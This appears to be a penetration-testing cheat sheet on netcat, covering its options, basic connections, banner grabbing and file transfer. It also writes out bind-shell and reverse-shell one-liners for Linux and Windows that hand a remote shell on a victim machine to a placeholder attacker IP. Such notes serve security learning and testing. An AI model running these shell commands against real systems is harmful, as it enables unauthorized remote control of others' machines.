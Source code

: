 # Netcat

* TCP protocol
* no encryption for data transmitted

## netcat important parameters

> -l: Listen mode  
> -e: Program to execute after connection occurs  
> -n: Don't perform DNS lookups on names of machines on the other side  
> -v: verbose, printing out messages on Standard Error, such as when a connection occurs

## Basic usage

### Fundamental Client \(\#1\)

> nc \[ip address\] \[port\]

### Fundamental Listener \(\#2\)

> nc -l -p \[port\]

## Backdoor Shell

### Bind Shell

Bind shell is a type of shell in which the target machine opens up a communication port or a listener on the victim machine and waits for an incoming connection. The **attacker then connects to the victim** machine’s listener which then leads to code or command execution on the server.

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/bind_shell.png)

#### netcat client \(\#1\) on **attacking machine** to access the shell

#### Command Execute on Victim Machine

#### Linux

> nc -l -p \[port\] -e /bin/bash

#### Windows

> C:&gt; nc -l -p \[port\] -e cmd.exe

### Reverse Shell

A reverse shell is a type of shell in which the target machine **communicates back** to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/reverseshell.png)

#### netcat listener \(\#2\) on **attacking machine** to capture the shell

#### Command Execute on Victim Machine

#### Linux

> nc \[attacker ip\] \[attacker listen port\] -e /bin/bash

#### Windows

> C:&gt; nc \[attacker ip\] \[attacker listen port\] -e cmd.exe

## TCP Banner Grabbing

> echo "" \| nc -v -n -w1 \[IP Address\] \[Ports\]
>
> echo -e "HEAD / HTTP/1.0\n\n" \| nc 192.168.2.22 80

## Transferring a File

### Push a file from client to listener

Receiving ends:

> nc -l -p \[port\] **&gt;** \[filename to be saved\]

Sending ends:

> nc -w3 \[ip address\] \[port\] **&lt;** \[file to be send\]

### Pull a file from listener back to client

File host:

> nc -l -p \[port\] &lt; \[file to be pulled\]

Pulling ends:

> nc -w3 \[ip address\] \[port\] **&gt;** \[file to be retrieve\]

